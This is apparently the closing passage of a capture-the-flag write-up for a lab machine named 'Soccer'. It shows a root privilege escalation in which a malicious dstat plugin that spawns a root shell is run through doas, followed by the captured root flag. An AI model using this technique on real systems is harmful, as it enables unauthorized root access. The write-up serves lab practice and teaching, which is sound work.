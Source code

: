 {% highlight shell %}

player@soccer:~$ cat /usr/local/share/dstat/xabaras.py


import os
os.setuid(0)
os.system("/bin/bash")
{% endhighlight %}

Let's run the exploit:

{% highlight shell %}

player@soccer:~$ /usr/local/bin/doas -u root /usr/bin/dstat --xabaras
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp

root@soccer:/home/player# id
uid=0(root) gid=0(root) groups=0(root)
root@soccer:/home/player# cat /root/root.txt 
b35fe80d70d15e0f4334b1ddb8d7060e
root@soccer:/home/player# 

{% endhighlight %}


## conclusion
This machine is an easy machine but it would require some additional information on WebSocket enumeration. The exploit porcess was straightforward with every steps clear and not rabbit-hole. 







